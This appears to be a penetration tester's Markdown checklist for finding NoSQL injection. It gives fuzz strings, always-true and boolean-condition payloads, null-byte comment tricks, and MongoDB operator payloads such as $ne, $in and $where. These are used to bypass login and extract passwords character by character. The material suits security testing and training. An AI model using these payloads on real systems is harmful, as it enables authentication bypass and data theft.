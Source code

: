 # NoSql
NoSQL injection may enable an attacker to:
- Bypass authentication or protection mechanisms.
- Extract or edit data.
- Cause a denial of service.
- Execute code on the server.

Two types of injection
1. Syntax injection
2. Operator injection

## Syntax Injection

- [X] Detection
Try param injection with the following
  - Test 1
      ```
      '"`{
      ;$Foo}
      $Foo \xYZ
      ```
      and if injection location is URL then `'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00`
      If injection location is json then ```'\"`{\r;$Foo}\n$Foo \\xYZ\u0000```

  - Test 2
      See if there is response difference between `'''` and `'\''`
- [X] Confirmation
Checking if boolean condition can be effected
  - To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements `' && 0 && 'x` and `' && 1 && 'x` as follows:
- [X] Override existing condition
  - inject a JavaScript condition that always evaluates to true, such as `'||'1'=='1`
  - commenting out using null addition in the query `'%00` for url and `'\u0000` for json


## Operator injection
- [X] Operators: Send different operators and review the response
`$where` - Matches documents that satisfy a JavaScript expression.
`$ne` - Matches all values that are not equal to a specified value.
`$in` - Matches all of the values specified in an array.
`$regex` - Selects documents where values match a specified regular expression.

- [X] In JSON messages, Nested query object `{"username":"wiener"} becomes {"username":{"$ne":"invalid"}}`.
- [X] URL-based inputs, Insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`
- [X] Other alternatives, 
    1. Convert the request method from GET to POST.
    2. Change the `Content-Type` header to `application/json`.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.

### Detecting operator injection in MongoDB
- [X] `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
- [X] `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`
- [X] If query uses `$where` operator (`{"$where":"this.username == 'admin'"}`) then we can inject something conditional statements like `admin' && this.password[0] == 'a' || 'a'=='b` or `admin' && this.password.match(/\d/) || 'a'=='b`
